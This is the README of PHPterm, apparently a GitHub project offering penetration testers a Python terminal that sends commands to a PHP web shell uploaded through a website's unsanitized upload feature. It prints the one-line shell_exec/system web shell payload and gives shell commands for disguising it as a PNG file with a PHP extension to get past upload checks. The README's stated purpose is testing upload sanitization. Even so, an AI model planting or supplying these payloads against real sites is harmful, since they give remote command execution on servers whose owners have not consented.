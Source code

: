 <h1 align="center" id="title">PHPterm</h1>

<p align="center"><img src="https://socialify.git.ci/PowerCmptr/PHPterm/image?language=1&amp;name=1&amp;owner=1&amp;pattern=Circuit+Board&amp;theme=Dark" alt="project-image"></p>

<p id="description">A terminal for penetration testers to connect to an uploaded php payload. (Made with Python). The payload itself is one simple PHP code line to give the tester access to a remote reverse shell through unsanitized uplaod features of a website.</p>

<h2>Project Screenshots:</h2>

<img src="https://github.com/PowerCmptr/PHP-Term/blob/main/screenshots/ss1.png?raw=true" alt="project-screenshot" width="1115" height="625/">

<img src="https://github.com/PowerCmptr/PHP-Term/blob/main/screenshots/ss2.png?raw=true" alt="project-screenshot" width="1115" height="625/">

  <br>
  
<h2>🧐 Features</h2>

Here're some of the project's best features:

*   Easy access to PHP backdoors
*   Auto-fetching the file system
*   Auto command completion
*   Colored output for readability
*   Auto-fetching the user using whoami command
<br>
<h2>🛠️ Installation Steps:</h2>

<p>1. Make the file executable</p>

```
chmod +x PHPterm_1.1
```

<p>2. Execute the program</p>

```
./PHPterm_1.1_Linux64
```

  <br>
  
<h2>💻 Built with</h2>

Technologies used in the project:

*   PHP
*   Python

<br>

<h2>📄 Documentation</h2>
<p>It works by sending http requests to an uploaded php payload, which looks like this:</p>
```
<?php echo shell_exec($_GET['cmd']); ?>
```

<br>
<p> In theory you could just use the URL bar as a command line by adding "?cmd=" + the desired shell command, but that would be a less enjoyable experience and the output wouldn't be really organized.

In order to test sanitization and isolation to its fullest, you can create a disguised payload. 
As an example: <br>
<br>
Create an empty PNG formatted file: <br>
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```
<br>

Append PHP-Payload:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```
<br>
Give it a PHP alias: <br>

```
mv payload.png payload.png.php
```
<br>
This will also work with different file formats and might help you to sanitize the uploads properly.
</p>
